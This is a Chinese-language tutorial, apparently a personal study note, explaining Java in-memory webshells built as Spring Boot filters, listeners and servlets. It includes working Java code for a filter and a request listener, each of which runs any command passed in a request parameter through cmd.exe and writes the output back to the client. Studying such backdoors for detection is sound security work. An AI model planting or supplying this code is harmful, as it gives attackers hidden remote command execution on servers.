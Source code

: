<a name="QjZmq"></a>
# 内存马快速识别
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639409886229-e8f80917-2c48-4c41-bbb1-ca08449e5760.png#clientId=ubc3ad6b4-1b05-4&from=paste&height=359&id=u92944704&originHeight=717&originWidth=1271&originalType=binary&ratio=1&size=86501&status=done&style=none&taskId=u6366df9d-a95f-4bbc-bfb5-0241301b4a1&width=635.5)

<a name="i4nOk"></a>
# 内存马浅析

<a name="zWknY"></a>
## filter内存马
首先写个简单的springboot路由(随便写那种，能访问就行)，然后创建Filter过滤器。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640229229790-d7317501-ad28-4fa7-b3d2-6bbdf428a736.png#clientId=uc54510b2-b7e2-4&from=paste&height=455&id=u795d3da4&originHeight=909&originWidth=1000&originalType=binary&ratio=1&size=136088&status=done&style=none&taskId=u9214c37a-66fb-4d90-a5e4-9f134a4f872&width=500)<br />生成的filter代码是这样子的<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640229244709-0a987ed3-753d-4c80-89bc-649e8d038ab5.png#clientId=uc54510b2-b7e2-4&from=paste&height=260&id=u8f3eb04a&originHeight=520&originWidth=1221&originalType=binary&ratio=1&size=49056&status=done&style=none&taskId=ud9290ef0-7493-4991-84cb-132a251916a&width=610.5)

然后再controller层添加bean<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640229279945-1f6ed938-48c2-4878-9684-8cd38c5b03a3.png#clientId=uc54510b2-b7e2-4&from=paste&height=308&id=u2e0fd44d&originHeight=616&originWidth=1368&originalType=binary&ratio=1&size=80423&status=done&style=none&taskId=u89ef6b52-8e79-4acc-8964-569ef582c9a&width=684)
```java
    @Bean
    public FilterRegistrationBean testFilterRegistration() {

        FilterRegistrationBean registration = new FilterRegistrationBean();
        registration.setFilter(new Filter());
        registration.addUrlPatterns("/*"); //表示会拦截任意路径
        registration.addInitParameter("paramName", "paramValue");
        registration.setName("testFilter");
        registration.setOrder(1);
        return registration;
    }
```
访问路径的时候，明显能看到filter的输出，可以看到filter的过程是init()→doFilter()→destroy()<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640229444218-509c6b71-556e-4e77-8793-eb2a9708a4fa.png#clientId=uc54510b2-b7e2-4&from=paste&height=184&id=u4d23a325&originHeight=367&originWidth=1457&originalType=binary&ratio=1&size=72546&status=done&style=none&taskId=u5241edf9-5423-4e4c-a99c-92a643f185e&width=728.5)<br />然而，filter内存马就是在执行过滤过程的时候，被植入了命令执行
```java
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws ServletException, IOException {
        System.out.println("filter 执行过滤过程");

        HttpServletRequest request = (HttpServletRequest) req;
        if (request.getParameter("c") != null){
            String[]  command = new String[]{"cmd", "/c", request.getParameter("c")};
            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
            String output = scanner.hasNext() ? scanner.next() : "";
            resp.getWriter().write(output);
            resp.getWriter().flush();
            return;
        }
        chain.doFilter(req, resp);
    }
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640240162310-69f9f450-fc08-46c6-962e-0fd53d24edb0.png#clientId=u66f8da84-3a71-4&from=paste&height=383&id=u097bcdf5&originHeight=766&originWidth=1210&originalType=binary&ratio=1&size=80955&status=done&style=none&taskId=u293ea4cf-72c0-4012-b45a-50645cd0767&width=605)<br />那么，访问对应filter的路径加上参数就可以命令执行了<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640240220957-58670301-14d4-4b77-a583-feb43164dc03.png#clientId=u66f8da84-3a71-4&from=paste&height=489&id=u5a44b3c8&originHeight=771&originWidth=695&originalType=binary&ratio=1&size=41380&status=done&style=none&taskId=u815c053d-bc3b-411c-b91f-5bb7d0d4625&width=440.5)<br />至于webshell访问的路径，需要看filter拦截器拦截的路由是什么，如果是/*就是任意路由加参数就能命令执行，如果是/abc，就得访问abc加参数才能命令执行<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640251889002-d25ab1ed-1800-4009-874d-fc0f7efc4e79.png#clientId=u1ac0efdc-39d1-4&from=paste&height=345&id=u83383775&originHeight=690&originWidth=1233&originalType=binary&ratio=1&size=76037&status=done&style=none&taskId=ub88c1c3a-f6d0-4181-859f-e858753f3cf&width=616.5)

<a name="cvHu0"></a>
## listener内存马
Listener的种类有很多，但是有些不适用于作为内存马，比如ServletContextListener需要涉及到启动和停止服务器(springboot在idea中自建的Listener)，HttpSessionListener需要设计session的创建和销毁，而ServletRequestListener只涉及到当前请求，所以最适合做内存马的是ServletRequestListener

listener主要以下两个函数<br />requestInitialized()<br />requestDestroyed()

直接在这两个函数中插入命令执行的java<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640276236474-40c85001-a704-4250-8fed-3e95de6bec8f.png#clientId=u1ac0efdc-39d1-4&from=paste&height=399&id=u5aa9f2d0&originHeight=797&originWidth=1616&originalType=binary&ratio=1&size=125759&status=done&style=none&taskId=ucaf2597b-ad8f-4ae9-b0bf-fc661520be8&width=808)

crontroller层中需要<br />@ServletComponentScan(basePackages = **"com.test5.demo"**) 来指定listener的包名<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640276292430-e4e57007-79ee-44c8-8b43-0910fef44e30.png#clientId=u1ac0efdc-39d1-4&from=paste&height=552&id=u917b96d8&originHeight=817&originWidth=732&originalType=binary&ratio=1&size=77508&status=done&style=none&taskId=u391be3c2-75df-4a19-9604-7392457bd34&width=495)<br />启动之后，只有访问才能监听到listener的请求<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640276393346-e9268213-cc08-4bc3-a708-45926dd10c58.png#clientId=u1ac0efdc-39d1-4&from=paste&height=511&id=ufb6685dd&originHeight=1022&originWidth=1920&originalType=binary&ratio=1&size=242478&status=done&style=none&taskId=u545f5ae1-d948-43f6-890e-8e81c324c48&width=960)<br />虽然页面报错，但是命令在调试的时候，发现是执行了的<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640276414371-63441984-e134-4ce8-9f22-6df5bf68cc86.png#clientId=u1ac0efdc-39d1-4&from=paste&height=299&id=ue35bde6b&originHeight=598&originWidth=1213&originalType=binary&ratio=1&size=121976&status=done&style=none&taskId=ue105497e-7723-4d68-93d3-e8eafab852f&width=606.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640276446709-2ff096a1-421d-4d7e-92ad-ba9df4c4c73f.png#clientId=u1ac0efdc-39d1-4&from=paste&height=155&id=u6e7171ff&originHeight=376&originWidth=1744&originalType=binary&ratio=1&size=88359&status=done&style=none&taskId=u7d695390-c560-4d07-b0bf-0be48270fbd&width=717.4000244140625)

调试发现是输出的报错问题，于是换一个输出的方式，listener型内存马的listener如下所示
```java
package com.test5.demo;

import org.apache.catalina.connector.Request;

import javax.servlet.ServletContextEvent;
import javax.servlet.ServletContextListener;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.*;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebListener()
public class Listener implements ServletRequestListener {
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("listener destroy");
    }
    public void requestInitialized(ServletRequestEvent sre){
        System.out.println("listener init");
        HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
        if (req.getParameter("cmd") != null){
            InputStream in = null;
            try {
                in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                Field requestF = req.getClass().getDeclaredField("request");
                requestF.setAccessible(true);
                Request request = (Request)requestF.get(req);
                PrintWriter out= request.getResponse().getWriter();
                out.println(output);
                out.flush();
                out.close();
            }
            catch (IOException e) {}
            catch (NoSuchFieldException e) {}
            catch (IllegalAccessException e) {}
        }
    }

}

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640277103427-7705de27-e967-4faf-8d8b-f66eb312cfbd.png#clientId=u9f5be1ec-f29a-4&from=paste&height=402&id=u324c58ac&originHeight=427&originWidth=751&originalType=binary&ratio=1&size=34800&status=done&style=none&taskId=u8d156877-149e-4545-b699-a8c91e07e30&width=707.5)

<a name="IG0KS"></a>
## servlet内存马
内存马的顺序是由 listen→filter→servlet的顺序<br />用springboot创建servlet内存马，创建后会有doGet、dopost方法，都是可以用来执行函数的<br />如下图所示，servlet的路径为/myservlet<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640411434119-5549bf61-71de-4a5d-9ed6-07235456f3ca.png#clientId=u72a287ae-9e7c-4&from=paste&height=313&id=u53f2d698&originHeight=625&originWidth=1673&originalType=binary&ratio=1&size=100624&status=done&style=none&taskId=ub24349c2-0cfa-46a8-bf03-5214bcba7c7&width=836.5)<br />同样的controller层下绑定ServletComponentScan<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640411479590-15404664-5518-4506-9c0e-83d31998c5ee.png#clientId=u72a287ae-9e7c-4&from=paste&height=303&id=u373a516b&originHeight=606&originWidth=1221&originalType=binary&ratio=1&size=78735&status=done&style=none&taskId=ue2ba8bf3-a46a-4833-958c-977493aa259&width=610.5)

访问/myservlet路径，就可以回显内存马了<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640411570180-86be04f3-dc2e-40e6-9431-7423b8f029c3.png#clientId=u72a287ae-9e7c-4&from=paste&height=385&id=u64494df3&originHeight=770&originWidth=1507&originalType=binary&ratio=1&size=143212&status=done&style=none&taskId=u0dd56ca8-8f62-485d-9f45-725865dad7a&width=753.5)
